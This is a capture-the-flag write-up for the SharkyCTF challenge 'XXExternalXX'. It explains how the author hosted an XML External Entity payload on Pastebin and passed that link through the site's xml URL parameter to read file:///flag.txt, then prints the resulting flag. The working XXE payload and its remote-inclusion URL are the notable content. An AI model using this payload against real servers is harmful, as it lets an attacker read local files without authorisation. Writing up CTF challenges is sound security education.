


<p align="center">
  
</p>

# XXExternalXX


## Statement

<p align="center">
  
</p>

## Introduction 

This challenge is about an Xml External Entity (xxe).

## Challenge resolution

We start by opening the website, the index shows `Welcome to this website. To check all the news we uploaded, please go to the "news" section`.

We can also see a menu with 2 buttons `Home` and `Show Stored data`. I suppose that the second one is the one i'm interested in.

By clicking on it, i arrive on the following page : 

<p align="center">
  
</p>

at the URl : `http://xxexternalxx.sharkyctf.xyz/?xml=data.xml`

As the challenge's name being XXExternalXX, i know that i'll have to make a xxe injection.

The goal is to inject the xxe via an external link in the url. I then created a [Pastebin](https://pastebin.com/5c3Daj3j) with this content :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<note>
<data>&xxe;</data>
</note>
```

and include it `http://xxexternalxx.sharkyctf.xyz/?xml=https://pastebin.com/raw/5c3Daj3j` to get the flag !

It was a basic XXE injection, the only "difficult" point was to find the <data> tag. Otherwise, nothing is displayed.

## Flag 

```
shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a} 
```

Flagged by [Ch4llengR](https://twitter.com/Ch4llengR)

## Resources 

* [OWASP - XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
* [XXE payload list](https://github.com/payloadbox/xxe-injection-payload-list)


